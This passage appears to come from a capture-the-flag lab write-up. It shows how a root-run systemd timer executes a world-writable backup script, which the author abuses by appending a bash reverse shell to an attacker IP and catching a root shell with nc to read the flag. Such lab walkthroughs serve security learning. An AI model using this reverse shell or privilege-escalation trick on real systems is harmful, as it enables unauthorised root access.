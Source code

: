 That file is relatively simple:

    
    
    [Unit]
    Description=Calls website backup
    Wants=timer_backup.timer
    WantedBy=multi-user.target
    
    [Service]
    ExecStart=/usr/bin/systemctl restart web_backup.service
    

The `Wants` and `WantedBy` describes the relation of this service to others as
far as starting. `ExecStart` describes what it runs. In this case, it’s just
restarting another service, `web_backup.service`. That config:

    
    
    [Unit]
    Description=Creates backups of the website
    
    [Service]
    ExecStart=/bin/bash /usr/bin/timer_backup.sh
    

It’s running `/usr/bin/timer_backup.sh`, a shell script, which is writable:

    
    
    pericles@time:/$ ls -l /usr/bin/timer_backup.sh
    -rwxrw-rw- 1 pericles pericles 88 Feb  9 22:15 /usr/bin/timer_backup.sh
    

### Initial Shell

I’ll add a reverse shell to the end of the script:

    
    
    pericles@time:/$ echo -e '\nbash -i >& /dev/tcp/10.10.14.8/443 0>&1' >> /usr/bin/timer_backup.sh
    

Very quickly, I’ve got a root shell at `nc`:

    
    
    oxdf@parrot$ sudo nc -lnvp 443
    listening on [any] 443 ...                                     
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.214] 58304
    bash: cannot set terminal process group (65912): Inappropriate ioctl for device
    bash: no job control in this shell                        
    root@time:/#
    

However, the shell dies after like 10 seconds. That’s plenty to get the flag:

    
    
    root@time:/# cd root
    root@time:/root# cat root.txt
    ecb18a98************************
    

I’ll look at getting a better shell in Beyond Root.
